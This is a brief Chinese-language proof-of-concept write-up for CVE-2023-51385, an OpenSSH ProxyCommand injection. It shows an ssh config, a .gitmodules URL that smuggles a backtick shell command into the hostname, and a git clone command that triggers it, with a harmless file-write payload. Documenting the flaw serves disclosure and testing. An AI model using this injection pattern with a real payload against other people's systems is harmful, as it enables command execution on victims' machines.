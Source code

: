 ## OpenSSH ProxyCommand命令注入漏洞 (CVE-2023-51385)
SSHProxyCommand是一个用于代理SSH连接的广泛使用的功能，允许用户指定用于连接到服务器的自定义命令。该功能的参数中可能包含像%h（主机名）和%u（用户名）这样的标记。然而，当主机名来自不受信任的来源时，存在潜在的安全风险，因为可能构造恶意主机名，看起来像“恶意命令”，并通过反引号执行Shell命令。

首先需要在~/.ssh/config增加如下
```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```
.gitmodules文件语句中存在命令注入
```
url = ssh://`echo helloworld > cve.txt`foo.example.com/bar
```
配置完成后,执行下面的指令触发
```
git clone https://github.com/wy876/CVE-2023-51385_test --recurse-submodules
```
如果成功执行将会在CVE-2023-51385_test目录下生成cve.txt文件

![image](../../images/ab5f8d1a-2cd0-48af-8828-28447f809ad5.png)


## 漏洞来源
- https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html
